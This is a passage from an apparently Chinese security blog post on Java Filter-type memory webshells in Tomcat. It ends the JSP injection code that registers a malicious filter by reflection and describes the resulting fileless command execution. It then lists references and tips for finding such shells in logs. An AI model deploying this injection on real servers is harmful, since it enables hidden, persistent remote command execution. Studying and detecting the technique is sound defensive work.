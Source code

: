 ```jsp
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("内存马注入成功");
    }
%>

```



访问这个页面：

![访问](http://image.xpshuai.cn/img/image-20220112101704180.png)



最后直接访问任意Servlet路由都可以执行命令：



![success](http://image.xpshuai.cn/img/image-20220112152447867.png)





**即使删除我们的注入文件`shell.jsp`也是一样可以执行，这样就可以达到无文件的Webshell管理方式了。**





参考文章：

[深入浅出内存马（一） - 风炫安全 - 博客园 (cnblogs.com)](https://www.cnblogs.com/fxsec/p/15000570.html)

[Java Filter型内存马的学习与实践 - zpchcbd - 博客园 (cnblogs.com)](https://www.cnblogs.com/zpchcbd/p/14814385.html)

[一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)

https://mp.weixin.qq.com/s/RnqoUuQ78NTG6VfkDbGPBA





## 内存马排查

```bash
如果是jsp注入，日志中排查可疑jsp的访问请求。

如果是代码执行漏洞，排查中间件的error.log，查看是否有可疑的报错，判断注入时间和方法

根据业务使用的组件排查是否可能存在java代码执行漏洞以及是否存在过webshell，排查框架漏洞，反序列化漏洞。

如果是servlet或者spring的controller类型，根据上报的webshell的url查找日志（日志可能被关闭，不一定有），根据url最早访问时间确定被注入时间。

如果是filter或者listener类型，可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200
```
